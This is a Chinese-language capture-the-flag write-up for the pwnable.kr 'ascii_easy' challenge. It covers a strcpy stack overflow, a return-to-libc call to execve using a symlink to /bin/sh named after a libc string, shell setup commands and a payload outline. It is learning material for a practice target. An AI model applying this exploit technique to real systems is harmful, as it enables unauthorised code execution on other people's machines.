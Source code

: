 # Pwnable.kr ascii_easy

## 程序分析
简化的代码如下
```cpp

void main(char** argv, char** envp) {
    // 检查argv[1]指向的那段必须全是 ascii 可见字符
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    mmap((void*)0x5555e000, 0x4000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0);
    vuln(argv[1]);
}
void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}
```

## 漏洞点
一开始我是懵的，主要的问题是：溢出的返回地址返回到哪里去？？返回到栈，不知道地址，看来只能返回到 libc 的 `execve` 了。但是这个 libc 没有 `/bin/sh`，所以参数又不好搞。

执行 `execve('/bin/sh', 0, 0)`，没有 `/bin/sh` 怎么办？直接公布答案，这个确实算是奇技淫巧了。在当前目录加一个 `/bin/sh` 的软连接，名字是在 libc 中可以找到的，比如 `error`，然后执行 `execve('error', 0, 0)` 即可。

具体流程如下
```sh
ln -s /bin/sh error
export PATH=$PATH:/home/ascii_easy

_argv = 'A'*32 + p32(call_execve) + p32(error) + p32(null) + p32(null)
```

## 总结反思
感觉这个确实太奇技淫巧了，而且没什么价值。因为实际情况不会登上服务器创立软连接并且设置环境变量。

